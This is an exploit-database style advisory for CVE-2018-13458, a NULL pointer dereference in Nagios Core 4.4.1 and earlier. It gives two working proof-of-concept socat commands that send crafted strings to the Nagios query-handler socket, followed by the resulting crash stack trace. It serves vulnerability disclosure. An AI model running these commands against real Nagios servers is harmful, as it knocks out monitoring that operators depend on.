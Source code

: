 Exploit Title: Nagios Core qh_core Denial of Service<br>
Date: 2018-07-09<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.nagios.org/<br>
Software Link: https://www.nagios.org/downloads/nagios-core/<br>
Version: 4.4.1 and earlier<br>
Tested on: 4.4.1<br>
CVE : CVE-2018-13458<br>
<br>
qh_core in Nagios Core 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attackers to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.<br>
<br>
$ echo -ne “#core\0" | socat unix-connect:./poc/nagios.qh -<br>
$ echo -ne “@core\0" | socat unix-connect:./poc/nagios.qh -<br>
<br>
#0 0x5546bc in qh_core /home/user/nagioscore/base/query-handler.c:408:6<br>
#1 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12<br>
#2 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4<br>
#3 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12<br>
#4 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4<br>
#5 0x7f6887b9882f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#6 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)<br>
